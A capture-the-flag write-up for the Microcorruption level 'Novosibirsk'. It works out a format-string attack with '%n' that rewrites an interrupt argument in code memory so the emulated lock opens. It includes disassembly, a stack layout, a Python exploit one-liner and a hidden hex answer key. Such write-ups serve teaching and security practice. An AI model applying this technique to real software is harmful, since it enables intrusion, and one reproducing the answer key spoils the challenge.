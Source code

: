 # Novosibirsk
> partial source code is [here](./dump.asm)  
> **Vulnerability**: Format String Vulnerability  
> similar to [Addis Ababa](../AddisAbaba/readme.md)

## Analysis
> similar to [Addis Ababa](../AddisAbaba/readme.md), both program both pass the user input directly the first argument of `printf`  
> Therefore, both vulnerable to **Format String Vulnerability**

### What is different from [Addis Ababa](../AddisAbaba)?
**Addis Ababa** relies on that the `printf` with vulnerability is called after the `test_password_valid` and will be able to use it overwrite the value set and used for checking.

However, `Novosibirsk` calls `printf` with vulnerability before the `conditional_unlock_door`, which is use for both checking the username and unlocking the door. That is, even if the `printf` is able to set the value used for checking, it will be overwritten by the value set by `conditional_unlock_door` and would not affect the behavior of the function.

### Thoughts
#### Overwrite return value?
With the setup of the program, shown below:
```asm
4424 <__do_clear_bss>
4424:  3f40 1400      mov	#0x14, r15
4428:  0f93           tst	r15
442a:  0624           jz	$+0xe <main+0x0>
```

The program will **jump** to `main` and not **call** it. Therefore, the return address will not be pushed to the stack and we cannot overwrite it to control the program flow.

#### Overwrite the call for `INT 0x7e(arg1)` to `INT 0x7f(void)` in `<conditional_unlock_door>`?

What do the program do and how can this be helpful?
- `<main>`
    ```c
    void main() {
        ...
        printf(input);
        if (conditional_unlock_door(input)) {
            printf("Access granted.");
        } else {
            printf("That username is not valid.")
        }
    }
    ```
- `<conditional_unlock_door>`
    ```c
    int conditional_unlock_door(char *username) {
        bool result;
        INT(0x7e, username, &result);
        return (int)result;
    }
    ```

Therefore, no matter what the input is, the program will always call `<conditional_unlock_door>` with the input and check the return value, and at the same time, there is no other checking mechanism other than the **interupt**, `INT 0x7e`.

That is, if we can overwrite the call for `INT 0x7e(arg1)` to `INT 0x7f(void)` in `<conditional_unlock_door>`, then we can bypass the check in the interrupt and unlock the door.

##### Where to modify?
```asm
44b0 <conditional_unlock_door>
44b0:  0412           push	r4
44b2:  0441           mov	sp, r4
44b4:  2453           incd	r4
44b6:  2183           decd	sp
44b8:  c443 fcff      mov.b	#0x0, -0x4(r4)
44bc:  3e40 fcff      mov	#0xfffc, r14
44c0:  0e54           add	r4, r14
44c2:  0e12           push	r14
44c4:  0f12           push	r15
44c6:  3012 7e00      push	#0x7e
44ca:  b012 3645      call	#0x4536 <INT>
44ce:  5f44 fcff      mov.b	-0x4(r4), r15
44d2:  8f11           sxt	r15
44d4:  3152           add	#0x8, sp
44d6:  3441           pop	r4
44d8:  3041           ret
```

At `0x44c6`, the program pushes `0x7e` to the stack and calls `INT`. Therefore, if we can overwrite the value at `0x44c8` to `0x7f`, then the program will call `INT 0x7f` instead of `INT 0x7e`. As shown below:

```diff
44c4:  0f12           push	r15
- 44c6:  3012 7e00      push	#0x7e
+ 44c6:  3012 7f00      push	#0x7f
44ca:  b012 3645      call	#0x4536 <INT>
```

##### Stack Layout (when `printf(input)` is called)
| address | stack | `printf` arguments | data                                           |
| :-----: | :---: | :----------------: | :--------------------------------------------- |
|   ...   |  ...  |         -          | ...                                            |
|  420a   |  sp   |    1st argument    | pointer to input, `0x420c`                     |
|  420c   | sp+2  |    2nd argument    | input[0] = address for the to be modified byte |
|  420e   | sp+4  |    3rd argument    | input[2]                                       |
|  4210   | sp+6  |    4th argument    | input[4]                                       |
|   ...   |  ...  |        ...         | ...                                            |
|   ...   |  ...  |        ...         | input[??] = "%n"                               |
|   ...   |  ...  |        ...         | ...                                            |

Therefore, the first 2 bytes of the input should be `0x44c8` in little endian to modify the as mentioned [above](#where-to-modify).

**But**, how many padding needed before "%n" to set the value to `0x7f`?

From the [manual](https://microcorruption.com/public/manual.pdf), "%n" will write the number of characters printed thus far to the address specified so we need total of `0x7f` bytes of padding, including the address of the byte to be modified. That is, the input should be as follows:
|   `input`   | content  | reasoning                                                                         |
| :---------: | :------: | :-------------------------------------------------------------------------------- |
|  input[0]   | `0x44c8` | address of the byte to be modified                                                |
|  input[2]   |    -     | (padding)                                                                         |
|  input[4]   |    -     | (padding)                                                                         |
|     ...     |   ...    | (padding)                                                                         |
| input[0x76] |    -     | (padding)                                                                         |
| input[0x7f] |   `%n`   | write the number of characters, `0x7f`, printed thus far to the address specified |

## Exploit
```python
p16(0x44c8).ljust(0x7f, b'A') + b'%n'
```

<!-- solution: {'level_id': 13, 'input': 'c8444141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141256e;'} -->
